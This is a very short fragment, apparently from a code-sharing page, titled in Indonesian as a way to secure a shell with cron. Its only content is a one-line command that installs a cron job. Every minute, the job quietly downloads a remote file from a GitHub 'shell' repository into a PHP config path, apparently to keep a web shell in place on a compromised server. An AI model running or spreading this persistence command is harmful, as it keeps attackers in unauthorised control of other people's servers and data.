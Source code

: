 ##AMANIN SHELL MAKE CRON

echo " * * * * * wget -q https://raw.githubusercontent.com/adriyansyah-mf/shell/main/hizuo.txt -O /path/conf.php" | crontab -
